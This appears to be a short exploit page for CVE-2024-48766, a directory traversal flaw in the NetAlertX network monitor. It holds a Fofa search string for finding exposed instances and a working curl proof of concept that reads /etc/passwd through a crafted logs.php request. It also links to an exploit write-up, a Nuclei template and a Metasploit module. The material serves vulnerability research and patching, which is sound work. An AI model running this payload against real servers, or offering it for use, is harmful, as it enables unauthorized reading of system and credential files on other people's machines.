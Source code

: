 ## NetAlert X - Arbitary File Read (CVE-2024-48766)

```
NetAlertX is an open-source Wi-Fi / Local Area Network (LAN) intruder detector that scans for devices connected to your network and alerts you if new and unknown devices are found.

As stated on their website, it offers “a user-friendly solution to monitor your (home or business) network, ensuring peace of mind and enhanced security”.
```

## CVE-2024-48766
```
A directory traversal vulnerability exists in NetAlert X. Successful exploitation of this vulnerability would allow a remote attacker to list directories on the affected system.
```

## Fofa
```
"NetAlert X"
```
## Poc
```
curl -X POST http://192.168.1.33:20211/php/components/logs.php -d 'items=[{"buttons":[{"labelStringCode":"Maint_PurgeLog","event":"logManage('app.log', 'cleanLog')"},{"labelStringCode":"Maint_RestartServer","event":"askRestartBackend()"}],"fileName":"passwd","filePath":"/app/front/../../../../../../etc/passwd","textAreaCssClass":"logs"}]'
```

## Exploit
https://rhinosecuritylabs.com/research/cve-2024-46506-rce-in-netalertx

## Nuclei Template
https://github.com/projectdiscovery/nuclei-templates/pull/11631

## Metasploit Module
https://github.com/rapid7/metasploit-framework/pull/19881